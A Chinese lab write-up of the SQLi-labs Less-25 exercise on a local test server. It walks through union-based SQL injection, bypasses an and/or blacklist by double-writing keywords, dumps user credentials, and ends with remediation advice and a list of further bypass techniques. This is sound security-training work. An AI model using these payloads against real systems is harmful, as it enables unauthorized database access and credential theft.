SQLI-LAB报告

## 漏洞概要

SQL注入是一类高危漏洞，存在于与数据库相关的环境中，本质上是在数据与代码没有严格分离的环境下，将用户输入的内容作为可执行语句从而实现注入行为。SQL注入漏洞常见于未使用参数化查询、以拼接字符串方式构造 SQL 的场景。攻击者可通过SQL注入实现对数据库内容的访问，极易导致用户个人信息的泄露，和密码哈希撞库其他网站的用户，甚至承担法律责任。

SQL注入点大致可分为两种：GET型和POST型。GET型SQL注入的特点是以URL作为注入点，通过修改URL参数的方式完成注入攻击；POST型注入的特点是payload不在URL显现，而是通过修改POST请求体的内容。

SQL注入手法可分为六种：联合查询注入、报错注入、布尔盲注、时间盲注、堆叠注入、带外注入。联合查询注入和报错注入的特点是需要回显位，注入快速而精确；布尔盲注和时间盲注的特点是以页面变化的方式作为判断基准，在联合查询注入和报错注入失效时尝试布尔盲注和时间盲注；**堆叠注入**的特点是可以执行查询之外的操作，用";"结束查询语句，然后添加自己想要执行的SQL语句；**带外注入（OOB）**的特点是靠DNS/HTTP访问服务器时携带数据库信息，然后通过查看服务器log的方式得到需要的内容。

## 漏洞检测

0、判断数据库类型

1、检测数字型还是字符型

2、检测闭合方式

3、检测有无回显--盲注

4、检测过滤方式

## 打靶练习

LESS-25



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=1

返回数据结果



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=1'

返回报错：**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-25\index.php** on line **37**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

从报错中可以看出输入方式为字符型，且闭合方式为'



URL：

1、http://127.0.0.1/sqli-labs-master/Less-25/?id=1'--+

2、http://127.0.0.1/sqli-labs-master/Less-25/?id=1'%23

页面返回数据结果，说明注释符生效

#（%23）是MySQL特有的注释符，所以数据库类型为MySQL



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=1' order by 2--+

返回报错：**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-25\index.php** on line **37**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'der by 2-- ' LIMIT 0,1' at line 1

发现返回的报错里order变成了der，说明or被过滤了，双写or测试过滤是一次还是多次



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=1' oorrder by 2--+

返回数据结果

说明or只过滤一次

继续测试





找到查询位数为3



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,2,3--+

找出回显位为2和3





URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()--+

因为information里面有一个or所以要双写成oorr



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='users' and table_schema=database()--+

返回报错：**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-25\index.php** on line **37**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'table_schema=database()-- ' LIMIT 0,1' at line 1

说明and被过滤了，双写and解决



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='users' aandnd table_schema=database()--+



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,2,group_concat(concat_ws(':',username,password)) from users--+

此处password中含有or，所以双写or得到passwoorrd



URL：http://127.0.0.1/sqli-labs-master/Less-25/?id=-1' union select 1,2,group_concat(concat_ws(':',username,passwoorrd)) from users--+

完成

## 总结

### 一、影响与危害

攻击者仅需对URL进行操作，无需任何验证，即可读取数据库中的任意数据。

本次已实际验证：读出库名 `security`、表名、`users` 表的列名，以及表中全部 13 组用户名与密码。

**本关的特殊性在于过滤规则覆盖范围很广，但依然无效**：程序把输入中所有 `or` 和 `and` 都删除（不区分大小写），本意是让 `or 1=1` 这类条件注入失效。但它带来两个问题：

1. **过滤删的是"字符串"，不是"语义"** —— 只要把关键字拆开重写（`aandnd`、`infoorrmation_schema`），被删除一个之后剩下部分又拼回原词，过滤就完全失效。
2. **过滤会误伤正常内容** —— 本关实测中，`password` 这个**列名本身含有 `or`**，被过滤成了 `passwd` 导致取数失败，必须写成 `passwoorrd` 才能用。这说明这种过滤方式连"正常的字段名"都会破坏，本身就很粗糙。

攻击者只要理解"删除哪些字符"，就能反推出该在哪里补字符，**过滤成本几乎为零**。

其中包含 `admin:admin` 这类可直接登录的账号，密码无需破解即可使用；用户名密码一旦泄露，可用于撞库其他平台账号，影响范围超出本系统。账号信息属个人信息，若为生产环境可能触发《个人信息保护法》下的合规责任。

**利用门槛**：仅需浏览器与一次 URL 参数修改。**绕过方式固定（双写关键字），不需要专业工具。**

### 二、修复建议

1、根本修复：
   对该参数使用预编译（参数化查询）。其原理是数据库先确定语句结构、
   再将参数作为纯数据传入，用户输入永远不会进入 SQL 语法层被解析。

   **本关再次印证黑名单过滤无效**：程序用 `preg_replace('/or/i', "", $id)`
   和 `preg_replace('/AND/i', "", $id)` 删除了两个关键字，
   但攻击者只需把 `and` 写成 `aandnd`、`or` 写成 `oorr` 即可继续注入。
   **过滤的字符越具体，绕过方式就越明确** —— 这类防护只有在攻击者不了解规则时才有意义。

2、为什么不能用转义/过滤替代：
   转义引号、过滤关键字属于黑名单思路，只要存在一个未覆盖的绕过方式
   即告失效。本关的例子很典型：**过滤规则是公开的（甚至页面上直接提示了过滤结果），
   一旦规则公开，绕过就是几分钟的事。**

3、临时缓解（代码改不动时）：
   - 该接口的数据库账号降权，仅保留必要的 SELECT 权限
   - 统一错误页面，不向用户返回数据库报错与文件路径
   - **不要在页面上回显过滤后的结果**。本关页面底部直接输出了
     "Your Input is Filtered with following result: ..."，
     等于把过滤规则告诉攻击者，大幅降低了绕过门槛。
     （调试用的提示信息不应出现在生产环境。）

4、同类问题排查：
   按"是否存在字符串拼接构造 SQL"对全部接口做一次检索。

   **另需注意**：不要以为"过滤了 `and`/`or` 就挡住了条件注入"。
   除了双写，还有多种替代表达方式，例如
   `||` 代替 `or`、`&&` 代替 `and`、`1=1` 换成 `1 like 1`、`!` 取反等。
   **只要 SQL 语法本身允许别的写法，过滤特定关键字就永远堵不住。**

5、修复验证方法：
   用原 payload 复测：
     ?id=-1' union select 1,2,database()--+
   预期：不再回显库名。

   并需更换手法复测（注意要绕过过滤来测，否则测的是过滤而不是修复）：
   - 双写形式：?id=1' aandnd 1=1--+ 与 ?id=1' aandnd 1=2--+ 对比
   - 双写子查询：?id=-1' union select 1,2,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database())--+
   - 符号替代：?id=1' || 1=1--+（用 || 代替 or）
   确认这些仍能成功的写法全部失效。**仅删除 `and`/`or` 不视为任何防护。**

### 三、延伸思考

**卡在哪**：

1、**`order by` 突然报错，报错里显示的是 `der by`。**

   一开始以为是 `order by` 这种语法本身被禁了，但看报错内容发现关键字少了两个字母：

   ```
   near 'der by 2-- ' LIMIT 0,1'
   ```

   **`order by` 里的 `or` 被过滤掉了**，实际发出去的语句是 `der by`。

   这暴露了本关过滤规则的一个关键特点：**它删的是"字符串"而不是"关键字"** ——
   不管这个 `or` 出现在哪（是 `order` 的一部分，还是 `or 1=1` 里的运算符），
   只要字符序列匹配就被删掉。

   当时的方法是先猜"双写能不能过"，试了 `oorrder by` 之后页面正常返回，
   说明过滤只做一遍替换。

2、**过滤后会在页面底部直接显示出来，这个提示帮了大忙。**

   页面上有一行：
   `Hint: Your Input is Filtered with following result: 1' der by 3--`

   **它把过滤后的结果原样打出来了**，所以能直接看到"哪些字符被删了"，
   不用靠猜。这比对着报错推快得多。

   （反过来说，这也是个安全问题：**把过滤结果回显给用户等于公布过滤规则**。）

3、**`information_schema` 这个词本身就含有 `or`，我一开始没意识到。**

   报错 `near 'table_schema=database()-- '` 里的 `infmation_schema` 让我发现
   它被过滤成了 `infmation_schema`，必须写成 `infoorrmation_schema`。

   **更隐蔽的是列名 `password` 也含 `or`** ——
   取数据时写成 `passwoorrd` 才能正常取到。如果只注意关键字而忽略数据本身，
   这一步会卡很久。

**学到什么**：

1、**"双写绕过"的本质是"让过滤删掉的是多余的那个，剩下的正好拼回原词"。**

   实现方式是**把关键字拆开重写**：

   | 关键字 | 正确双写 | 为什么 |
   |---|---|---|
   | `and` | **`aandnd`** | 删掉中间那个完整的 `and`，两边剩下的 `a` + `nd` 拼回 `and` |
   | `or` | **`oorr`** | 同理，删掉第一个 `or`，剩下 `o` + `rr` 拼回 `or` |
   | `information_schema` | **`infoorrmation_schema`** | 对词内的 `or` 双写 |

   **注意不能随手多写一个字母**：写成 `aanndd` 是错的 ——
   过滤从左往右单遍扫描，会匹配到位置 3~5 的 `and` 并删掉，
   剩下 `aand`，反而变成了无效关键字。
   **双写的原则是"中间保留一个完整的关键字"，而不是"每个字母都重复"。**

2、**过滤是对"整个输入"做的，所以 payload 里任何位置出现的敏感字符都会中招。**

   本关踩了三次同一个坑，每次的形态不同：

   ```
   order by            →  or 出现在关键字内部
   information_schema  →  or 出现在表名内部
   password            →  or 出现在列名内部
   ```

   **所以遇到过滤时，不能只看"我要用的关键字有没有被过滤"，
   要把整条 payload 逐字符扫一遍** —— 包括表名、列名、函数名、字符串内容。
   这一条是本次最容易漏、也最费时间的部分。

3、**"过滤一次 vs 过滤多次"是判断能否双写的关键。**

   本关属于"单遍替换"（`preg_replace` 无限制次但单遍扫描），
   所以双写有效。如果目标是循环替换直到没有为止（比如用 `while` 反复替换），
   双写就会被反复删除而失效。

   ```
   单遍过滤：oorrder → 删掉 or → 剩 order ✅
   循环过滤：oorrder → 剩 order → 再删 or → 剩 der ❌
   ```

   **所以遇到过滤，第一件事是判断"过滤做了几遍"**：
   双写一次看是否生效，就能确定。

   **如果确认是多次过滤，字符变形这条路就走到头了** ——
   因为字符串是有限的、删除是单向的，不管怎么拼，
   反复删到最后一定会破。这时要换思路，而不是继续在同一个词上想办法：

   | 换法 | 解决的问题 | 本关实测 |
   |---|---|---|
   | **换成语义相同但不含敏感字符的写法** | `order by` → `group by` | ✅ 可用，`group by 3` 正常、`group by 4` 报错，同样能判断列数 |
   | **换成等价运算符** | `or` → `\|\|`、`and` → `&&` | ✅ 两者实测均可用 |
   | **换数据源** | 直接猜表名，不查 `information_schema` | ✅ `from users` 直接可用 |
   | ~~用 `char()` / `0x` 表示表名~~ | — | ❌ **行不通**，见下 |

   **`char()` 和 `0x` 只能表示"字符串值"，不能表示"表名或关键字"**（这条实测确认）：

   ```
   ✅ union select 1,0x7365637572697479        → 十六进制能当"值"
   ✅ union select 1,char(115,101,99,117,114,105,116,121)  → char() 能当"值"
   ❌ ... from 0x7573657273                     → 报错，FROM 后面要的是标识符
   ❌ ... from char(117,115,101,114,115)        → 报错，同上
   ```

   **原因**：`FROM` 后面要的是**表名（标识符）**，不是字符串。
   `from 'users'` 本身就报错，`from char(...)` 自然也不行。
   所以 `char()`、`0x` 只在**"要一个值"**的位置有效
   （比如 `where table_name=char(117,115,101,114,115)` 可以代替 `='users'`），
   在**"要一个名字"**的位置无效。

   **另外，对字符做 URL 编码也不管用**（实测）：

   ```
   ❌ ?id=1' %6f%72 1=1--+
      页面显示的过滤后结果仍是 "or 1=1" ——
      因为 PHP 从 $_GET 取值时 URL 已经解码，黑名单拿到的是解码后的原文，
      解码发生在过滤之前，编码层数再多也没有意义。
   ```

4、**过滤关键字永远堵不住注射，因为 SQL 语法本身就有多种等价写法。**

   本关过滤了 `and` 和 `or`，但 SQL 里：

   | 被过滤的 | 等价写法 |
   |---|---|
   | `or` | `\|\|` |
   | `and` | `&&` |
   | `=` | `like`、`regexp`、`<>` |

   **只要这些符号没被一起过滤，过滤关键字就形同虚设。**
   而如果把这些符号也全过滤，又会破坏正常业务（比如 `||` 在字符串拼接里会用到）。
   **这就是黑名单方案的根本困境：要么漏，要么误伤。**

5、**"过滤结果回显"本身是一个独立的信息泄露点。**

   本关页面直接把过滤后的内容打印出来，等于把过滤规则公开。
   在真实测试中，**这类调试信息往往比 SQL 报错更有价值** ——
   因为它直接告诉你"哪些字符被处理了、变成了什么"，
   省去了大量猜测。所以在报告"修复建议"里，除了修复注入本身，
   也应包括"移除调试信息回显"。

